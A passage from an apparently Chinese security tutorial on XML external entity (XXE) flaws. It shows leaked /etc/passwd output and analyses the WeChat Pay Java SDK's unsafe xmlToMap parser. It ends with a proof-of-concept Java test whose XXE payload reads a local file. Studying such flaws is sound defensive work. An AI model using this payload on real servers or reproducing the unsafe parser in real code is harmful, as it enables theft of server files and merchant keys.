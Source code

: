 如果没有做好“安全措施” 就会出现解析恶意代码的情况，就会有下面的返回

```
{"error": "no results for description root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync...
```

### **实例二：微信支付的 XXE**

前一阵子非常火的微信支付的 XXE 漏洞当然不得不提，

**漏洞描述：**

微信支付提供了一个 api 接口，供商家接收异步支付结果，微信支付所用的java sdk在处理结果时可能触发一个XXE漏洞，攻击者可以向这个接口发送构造恶意payloads,获取商家服务器上的任何信息，一旦攻击者获得了敏感的数据 (md5-key and merchant-Id etc.)，他可能通过发送伪造的信息不用花钱就购买商家任意物品

我下载了 java 版本的 sdk 进行分析，这个 sdk 提供了一个 WXPayUtil 工具类，该类中实现了xmltoMap和maptoXml这两个方法，而这次的微信支付的xxe漏洞爆发点就在xmltoMap方法中

**如图所示：**

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181120002650-eb304d9e-ec17-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181120002650-eb304d9e-ec17-1.png)

问题就出现在我横线划出来的那部分，也就是简化为下面的代码：

```
public static Map<String, String> xmlToMap(String strXML) throws Exception {
        try {
            Map<String, String> data = new HashMap<String, String>();
            DocumentBuilder documentBuilder = WXPayXmlUtil.newDocumentBuilder();
            InputStream stream = new ByteArrayInputStream(strXML.getBytes("UTF-8"));
            org.w3c.dom.Document doc = documentBuilder.parse(stream);
            ...
```

我们可以看到 当构建了 documentBuilder 以后就直接对传进来的 strXML 解析了，而不巧的是 strXML 是一处攻击者可控的参数，于是就出现了 XXE 漏洞，下面是我实验的步骤

首先我在 com 包下又新建了一个包，来写我们的测试代码，测试代码我命名为 test001.java

**如图所示：**

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181120002651-eb80dca0-ec17-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181120002651-eb80dca0-ec17-1.png)

**test001.java**

```java
package com.test.test001;

import java.util.Map;

import static com.github.wxpay.sdk.WXPayUtil.xmlToMap;

public class test001 {
    public static void main(String args[]) throws Exception {

        String xmlStr ="<?xml version='1.0' encoding='utf-8'?>\r\n" +
                "<!DOCTYPE XDSEC [\r\n" +
                "<!ENTITY xxe SYSTEM 'file:///d:/1.txt'>]>\r\n" +
                "<XDSEC>\r\n"+
                "<XXE>&xxe;</XXE>\r\n" +
                "</XDSEC>";

        try{

            Map<String,String> test = xmlToMap(xmlStr);
            System.out.println(test);
```
